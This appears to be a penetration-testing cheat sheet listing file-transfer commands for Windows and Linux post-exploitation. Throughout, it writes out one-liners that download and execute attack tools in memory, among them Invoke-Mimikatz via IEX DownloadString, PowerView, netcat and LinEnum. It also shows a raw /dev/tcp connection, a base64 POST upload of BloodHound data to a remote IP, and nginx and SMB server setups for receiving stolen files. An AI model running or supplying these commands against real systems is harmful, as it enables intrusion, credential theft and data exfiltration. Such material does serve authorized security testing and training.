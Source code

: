 | **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a file using Certutil |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
|
|``` Linux ```
| `OPPESLL Transfer File `
| `openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem` | Create certificate
| `openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh` | Stand up server
| `openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh` | Download file
| 
| `Bash (/dev/tcp)`
| `exec 3<>/dev/tcp/10.10.10.32/80` | Connect to Target's Webserver
| `echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3` | HTTP GET Request
| `cat <&3` | Print the Response
|
| `php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'` | Fopen()
| `php -r '$rfile = "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"; $lfile = "LinEnum.sh"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'` | Php-curl
|
| `import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")` | python2
| `import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")` | python3
|
| `ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'` | ruby
| `perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'` | perl
|
|Go
|```
package main
import (
	 "os"
     "io"
     "net/http"
)

func main() {
     lfile, err := os.Create("LinEnum.sh")
     _ = err
     defer lfile.Close()

     rfile := "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"
     response, err := http.Get(rfile)
     defer response.Body.Close()

     io.Copy(lfile, response.Body)
}```


| `Windows`
|
| `(New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',"C:\Users\Public\Downloads\PowerView.ps1")` | PowerShell Downloads
| `Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`
| `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')`
| `Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 | iex`
| `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex;`
| `Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"`
| `Upload File Poweshell`
| ```$b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))` 
|    Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64 ```
| `Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql`
|
| ```Catching Files over HTTP/SMB ```
| `Nginx Enable PUT`
| 1 - `sudo mkdir -p /var/www/uploads/SecretUploadDirectory`
| 2 - ` sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory`
| 3 - ```Create the NGINX Configuration file, by creating the file /etc/nginx/sites-available/upload.conf with the contents:```
```server {
	listen 9001;
	
	location /SecretUploadDirectory/ {
		root	/var/www/uploads;
		dav_methods	PUT;
	}
}
```
| 4-`Symlink our site to the sites-enabled directory.: sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/`
| 5 - `Start nginx : sudo systemctl restart nginx.service`
| 6 - `tail -2 /var/log/nginx/error.log`
| 7 - `sudo rm /etc/nginx/sites-enabled/default`
|
| ```Impacket SMBServer - Syntax```
| `smbserver.py -smb2support <share name> <location>`
| example : ```mkdir Transfers && cd Transfers
|             r00Tve0m@root[root]$ /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support FileTransfer $(pwd)```
|
|              ```smbserver.py -user USERNAME -password PASSWORD FileTransfer $(pwd)```
| 
